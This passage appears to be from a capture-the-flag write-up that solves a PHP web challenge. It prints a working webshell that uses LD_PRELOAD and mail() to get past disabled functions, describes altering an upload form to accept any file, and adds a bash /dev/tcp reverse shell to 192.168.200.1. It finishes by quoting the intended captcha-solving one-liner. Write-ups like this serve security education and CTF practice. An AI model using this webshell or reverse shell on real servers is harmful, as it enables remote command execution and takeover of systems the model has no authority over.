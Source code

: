 ```php
// (evil.php)
<?php
    putenv("LD_PRELOAD=./evil.so");
    $cmd = $_GET['cmd'];
    $cmdline = $cmd . " > /tmp/eval_output 2>&1";
    putenv("cmd=$cmdline");
    mail("", "", "", "");
    @highlight_file("/tmp/eval_output");
?>
```

But, how can we upload a valid `.so` file? Slightly modified `shell.xxx` to add an upload form, now we can bypass the restriction to upload any file.

5.Now we have an unrestricted webshell and just running `/get_flag` gives us a flag.

But, when we tried running `/get_flag`, it gives a simple captcha that is addition of 5 numbers. But, with some problem, `SIGALRM` is triggered too fast, we couldn't deal with the captcha.

So i added a reverse shell to `evil.php`:

```php
$reverse = $_GET['reverse'];
if ($reverse == 1) {
    putenv("cmd=bash -c 'exec bash -i &>/dev/tcp/192.168.200.1/9001 <&1'");
}
```

After getting the interactive shell, use the `trap` command to capture the `SIGALRM` signal which has a value of 14, and just calculate it slowly :>

![](https://i.imgur.com/aqX6Ufp.png)

#### Others

The answer given by the author is:

```bash
$ cd /; bash -c 'expr $(grep + /tmp/test)' | /get_flag > /tmp/test; cat /tmp/test
```

Also very nice :)